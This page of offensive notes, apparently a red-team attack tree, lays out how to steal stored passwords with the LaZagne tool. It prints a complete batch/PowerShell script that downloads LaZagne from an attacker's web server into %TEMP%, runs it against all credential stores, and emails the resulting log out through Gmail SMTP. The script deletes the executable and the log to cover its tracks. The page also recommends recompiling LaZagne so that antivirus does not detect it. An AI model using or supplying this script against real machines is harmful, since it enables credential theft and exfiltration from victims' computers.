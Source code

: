 # Password recovery tool

## Attack tree

```text
1 Passwords
    1.1 Download password recovery tool such as LazAGne (AND)
    1.2 Set permissions to 777 (direct download URL) (AND)
    1.3 Set up (or start) a webserver (AND)
    1.4 Create gmail account with app password (in Security section)
    1.5 Upload password recovery tool to webserver /var/www/html/evil-files or other from target reachable location (AND)
    1.6 Make a (.bat extension) script that downloads the password recovery tool, execute it and send an email with the result (AND)
    ...
```

## Notes

* LazaGna needs to be executed on target computer and displays logs on screen or stores them in a local file.
* Use a file that downloads LazAgne, execute it and send an email with the result back.

```text
@echo off

set downloadURL=https://<domain>/evil-files/laZagne.exe
set email=email@gmail.com
set password=PASSWORD

set exeFile=%TEMP%\proc.exe
set logFile=%TEMP%\proclog.txt
set arguments=all


powershell (new-object System.Net.WebClient).DownloadFile('%downloadURL%','%exeFile%');
%exeFile% %arguments% > %logFile%

del %exeFile%

powershell $SMTPServer = 'smtp.gmail.com';$SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587);$SMTPInfo.EnableSsl = $true;$SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('%email%', '%password%');$ReportEmail = New-Object System.Net.Mail.MailMessage;$ReportEmail.From = '%email%';$ReportEmail.To.Add('%email%');$ReportEmail.Subject = 'Lazagne Report';$ReportEmail.Body = 'Lazagne report in the attachments.';$ReportEmail.Attachments.Add('%logFile%');$SMTPInfo.Send($ReportEmail);

del %logFile%
```

## Tools

* [LaZagnE](https://github.com/0x0ff537/LaZagne/)
* [LAzAgne wiki](https://github.com/AlessandroZ/LaZagne/wiki)
* [Compile Lazagne](https://github.com/AlessandroZ/LaZagne/wiki/How-to-compile) (because the releases are detectable)
* [Powershell scripting](https://docs.microsoft.com/en-us/powershell/scripting/samples/sample-scripts-for-administration?view=powershell-7.2)